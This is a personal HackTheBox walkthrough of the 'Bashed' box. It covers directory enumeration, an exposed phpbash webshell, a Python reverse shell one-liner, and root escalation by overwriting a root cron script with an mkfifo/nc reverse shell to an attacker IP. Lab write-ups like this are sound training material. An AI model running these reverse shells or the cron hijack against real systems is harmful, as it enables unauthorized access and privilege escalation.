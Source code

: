 ```yaml
---
title: HackTheBox - Bashed
categories: writeups
layout: post
date: 2020-07-08 22:24 -0500
---
```

![Bashed](/assets/images/HTBoxes/Bashed/Bashed.png)

## Summary

This was a box that mainly involved scanning the web server for interesting items and then gaining foothold via a php webshell called phpbash.  Privilege escalation was a good exercise in not overcomplicating python code.

## Walkthrough

### Enumeration

Started with the usual nmap scan of ``nmap -T4 -A -v 10.10.10.68``.  Only thing found was a webserver so I looked at the webserver.

![phpbash webpage](/assets/images/HTBoxes/Bashed/Bashed-website.png)

I decided to run ``dirb`` as I have used ``gobuster`` before but not ``dirb`` so it ws a chance to get familiar with the tool. It seems to have its default wordlisting for directories and that worked here.

```bash
dirb http:///10.10.10.68

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Jul  7 22:41:29 2020
URL_BASE: http:///10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http:///10.10.10.68/ ----
+ http:///10.10.10.68/css (CODE:301|SIZE:308)
+ http:///10.10.10.68/dev (CODE:301SIZE:308)
+ http:///10.10.10.68/fonts (CODE:301|SIZE:310)
+ http:///10.10.10.68/images (CODE:301|SIZE:311)
+ http:///10.10.10.68/index.html (CODE:200|SIZE:7743)
+ http:///10.10.10.68/js (CODE:301|SIZE:307)  
+ http:///10.10.10.68/php (CODE:301|SIZE:308)
+ http:///10.10.10.68/server-status (CODE:403|SIZE:299)
+ http:///10.10.10.68/uploads (CODE:301|SIZE:312)

-----------------
END_TIME: Tue Jul  7 22:45:06 2020
DOWNLOADED: 4612 - FOUND: 9
```

The noticable thing here that leads to something is ``/dev``.  Browsing to it shows us that ``phpbash`` is indeed available for use.  So browsing to ``http://10.10.10.68/dev/phpbash.php`` gave me a webshell.

![phpbash](/assets/images/HTBoxes/Bashed/phpbash-webshell.png)

### Foothold

I had issues trying to figure out how to use phpbash to get a reverse shell.  The usual ``nc`` command wasn't working, and the usual ``mkfifo`` one-liner workaround didn't work inside the webshell.  Also noticed perl and a few others weren't available as well.  For me only a python reverse shell one-liner worked:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

After getting a shell, I upgraded it with the standard python command:  
``python -c 'import pty; pty.spawn("/bin/bash")'``

Immediately after doing this I was getting an echo of each character
_lliikkee tthhiiss_

So I did a ``CTRL+Z`` to the background and ran ``stty raw -echo`` followed by ``fg`` to get my shell back, and the echo was gone.

### User

I immediately went to ``/home`` and noticed that arrexel's user folder had world readable permissions on the user.txt file. I was able to ``cat`` it easily as the www-data user.

### Root

Looking around the filesystem (and a peek at the official HTB walkthrough cause honestly, I have to be effective with my time at this point in my life) we see the ``/scripts`` root directory is owned by the _scriptmanager_ user.

Checking out ``sudo -l`` options we see that we can run anything as this _scriptmanager_ user so I grab a shell as the user via this command:
``sudo -u scriptmanager /bin/bash``

Moving into the interesting ``/scripts`` directory we see a couple files: ``test.py`` and ``test.txt``.

The ``test.txt`` file seems to update its timestamp every minute or so and is owned by _root_.  Looking at the contents of the ``test.py`` we can see why - it is simply putting text into the txt file when it executes.  _root_ must be executing it since it is the owner of the ``test.txt`` file.

Now that I had write access to the ``test.py`` file, I just needed to write some python code to give me a reverse shell.  I did some Googling and discovered this is as easy as just using native python os lib.

Since the native ``nc`` binary didn't support ``-e``.  I just went with the bash ``mkfifo`` one-liner that works when ``nc -e`` isn't available.

In ``test.py`` I added the code via an ``echo`` command:

```bash
echo "import os; os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4445 >/tmp/f')" > test.py
```

I had my `nc -lvnp 4445` listener up and it received a shell.  Got ``/root/root.txt`` without issue.

### Lessons Learned

Overall a pretty fun and straightforward box.  My first writeup as a means of keeping notes.  If it is helpful to others, that is great!  

In the future, I'm hoping to get better with screenshots etc. or learning how to capture the commands and output in gifs.  We will see.

As mentioned this was pretty straight forward.  I learned not to overcomplicate python code when you have an available escalation path via a root cronjob.
